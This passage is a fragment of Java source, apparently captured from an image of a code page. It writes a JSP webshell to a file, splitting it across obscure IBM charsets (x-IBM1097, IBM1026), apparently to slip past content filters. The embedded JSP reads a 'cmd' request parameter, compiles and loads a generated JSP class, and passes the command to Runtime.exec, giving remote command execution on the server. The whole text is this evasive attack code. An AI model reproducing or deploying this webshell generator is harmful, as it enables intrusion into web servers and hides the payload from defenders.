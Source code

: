 ```java
            "          @Override\n" +
            "          public int getJspIdleTimeout() {\n" +
            "               return options.getJspIdleTimeout();\n" +
            "          }\n" +
            "\n" +
            "          @Override\n" +
            "          public boolean getStrictQuoteEscaping() {\n" +
            "               return options.getStrictQuoteEscaping();\n" +
            "          }\n" +
            "\n" +
            "          @Override\n" +
            "          public boolean getQuoteAttributeEL() {\n" +
            "               return options.getQuoteAttributeEL();\n" +
            "          }\n" +
            "     };\n" +
            "       System.setProperty(\"test\",request.getParameter(\"cmd\"));" +
            "     JspServletWrapper jspServletWrapper =  new JspServletWrapper(config,options,\"/merged.jsp\",new JspRuntimeContext(application,options));\n" +
            "     JspCompilationContext jspCompilationContext = new JspCompilationContext(\"/merged.jsp\",options,application,jspServletWrapper,new JspRuntimeContext(application,options));\n" +
            "     new File(jspCompilationContext.getClassFileName()).delete();\n" +
            "     jspCompilationContext.compile();\n" +
            "    try{\n" +
            "     jspCompilationContext.load().getConstructor().newInstance();}catch(Exception e){}\n" +
            "      }finally{\n" +
            "\n" +
            "      }\n" +
            "      }\n" +
            "      static{\n" +
            "            try{//", "x-IBM1097");

    writeToFile(file, "\n","IBM1026");

    writeToFile(file,"Runtime.getRuntime().exec(System.getProperty(\"test\"));\n" +
            "}catch (Exception e){\n" +
            "                  \n" +
            "            }  \n" +
            "      }\n" +
            "\n" +
            "      public void test() throws Exception{\n" +
            "      javax.servlet.jsp.JspWriter out = null;\n" +
            "      javax.servlet.jsp.JspWriter _jspx_out = null;\n" +
            "      javax.servlet.jsp.PageContext _jspx_page_context = null;\n" +
            "      javax.servlet.http.HttpServletResponse response = null;\n" +
            "      try{}catch(Exception e){\n" +
            "//\n" +
            "%>","x-IBM1097");
}

public static void writeToFile(File file, String content, String charsetName) {
    try (OutputStreamWriter writer = new OutputStreamWriter(new FileOutputStream(file, true), Charset.forName(charsetName))) {
        writer.write(content);
    } catch (IOException e) {
        e.printStackTrace();
    }
}
```
